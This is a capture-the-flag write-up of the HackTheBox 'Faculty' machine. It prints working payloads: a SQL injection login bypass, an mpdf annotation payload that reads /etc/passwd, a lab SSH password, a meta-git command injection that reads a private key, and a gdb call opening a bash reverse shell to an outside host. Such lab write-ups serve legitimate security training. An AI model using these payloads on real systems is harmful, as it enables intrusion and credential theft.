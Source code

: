 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty-Writeup/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty-Writeup/Faculty.png" style="zoom:50%;" />

Faculty is a medium linux machine that involves mpdf exploitation, meta-git and privilege escalation with gdb.

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/Faculty-Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Faculty-Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried `admin/admin` as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/Faculty-Writeup/bypass-login.png)

![](/assets/images/hackthebox/Faculty-Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/Faculty-Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/Faculty-Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/Faculty-Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/Faculty-Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/Faculty-Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/Faculty-Writeup/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/Faculty-Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/assets/images/hackthebox/Faculty-Writeup/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/Faculty-Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/Faculty-Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/Faculty-Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/Faculty-Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/Faculty-Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/Faculty-Writeup/root.png)
